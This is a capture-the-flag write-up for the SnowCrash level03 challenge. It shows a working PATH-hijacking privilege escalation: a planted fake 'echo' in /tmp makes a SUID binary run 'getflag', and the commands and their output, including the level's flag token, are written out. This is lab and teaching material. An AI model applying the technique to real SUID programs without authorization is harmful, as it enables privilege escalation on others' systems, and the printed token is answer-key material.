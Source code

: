 # level03

In this level, we have an executable `level03`.  

```bash
level03@SnowCrash:~$ ls -la
...
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
...

level03@SnowCrash:~$ ./level03 
Exploit me
level03@SnowCrash:~$ ./level03 test
Exploit me
```

The bit `SUID` is set in this programm. So when it's execute, it is run as `flag03` instead of `level03`.  

Using `gdb` we can see the code assembly to exploit it.  

```bash
0x080484f7 <+83>:	mov    DWORD PTR [esp],0x80485e0
0x080484fe <+90>:	call   0x80483b0 <system@plt>
...
(gdb) x/s 0x80485e0
0x80485e0:	 "/usr/bin/env echo Exploit me"
```

As the binary will be executed as `flag03` we can try to launch the command `getflag` to obtain the flag.  
We can override `echo` builtin by an another.  
To do this we must:


1. Create a file named `echo` in a folder in which we have permissions : `/tmp`
2. Fill it with appropriate command
3. Give it executing permission 
4. Add this path at the begin of environment variable `PATH`


```bash
level03@SnowCrash:~$ echo "/bin/getflag" > /tmp/echo
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04
Password: 
level04@SnowCrash:~$
```
